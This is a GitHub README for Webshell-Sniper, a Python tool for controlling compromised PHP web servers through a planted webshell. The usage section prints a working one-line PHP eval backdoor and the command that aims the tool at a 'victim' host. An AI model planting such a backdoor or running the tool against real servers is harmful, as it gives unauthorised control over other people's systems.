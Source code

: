 #WEBSHELL_SNIPER
A webshell manager via terminal

[![Backers on Open Collective](https://opencollective.com/Webshell-Sniper/backers/badge.svg)](#backers)
[![Sponsors on Open Collective](https://opencollective.com/Webshell-Sniper/sponsors/badge.svg)](#sponsors) 

#### Usage :
```
Usage : 
        python webshell-sniper.py [URL] [METHOD] [AUTH]
Example : 
        python webshell-sniper.py http://127.0.0.1/c.php POST c
Author : 
        WangYihang <wangyihanger@gmail.com>
```
```
# cat /var/www/html/index.php
<?php eval($_POST['s3cr3t']);?>
# python webshell-sniper.py http://victim.com/index.php POST s3cr3t
...
```

#### Installation:
```
git clone https://github.com/WangYihang/Webshell-Sniper
cd Webshell-Sniper
pip install -r requirements.txt
```

#### Example : 

> v1.1.2

[![A Pentest Example via Webshell-Sniper (YouTube)](./images/pentest_0.png)](https://www.youtube.com/watch?v=iAUwb8SSS4s)

#### Compatibility :
```
Enviroment :
    Attacker :
        Linux
        python 2.7
    Victim :
        apache 2.4
        php 7.0
```

#### Addations:
1. This tool only support to run on unix-like system.
2. It is able to help user control web server which is running PHP or MySQL

## Contributors

This project exists thanks to all the people who contribute. 
<a href="https://github.com/WangYihang/Webshell-Sniper/graphs/contributors"><img src="https://opencollective.com/Webshell-Sniper/contributors.svg?width=890&button=false" /></a>


## Backers

Thank you to all our backers! 🙏 [[Become a backer](https://opencollective.com/Webshell-Sniper#backer)]

<a href="https://opencollective.com/Webshell-Sniper#backers" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/backers.svg?width=890"></a>


## Sponsors

Support this project by becoming a sponsor. Your logo will show up here with a link to your website. [[Become a sponsor](https://opencollective.com/Webshell-Sniper#sponsor)]

<a href="https://opencollective.com/Webshell-Sniper/sponsor/0/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/0/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/1/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/1/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/2/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/2/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/3/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/3/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/4/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/4/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/5/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/5/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/6/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/6/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/7/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/7/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/8/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/8/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/9/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/9/avatar.svg"></a>


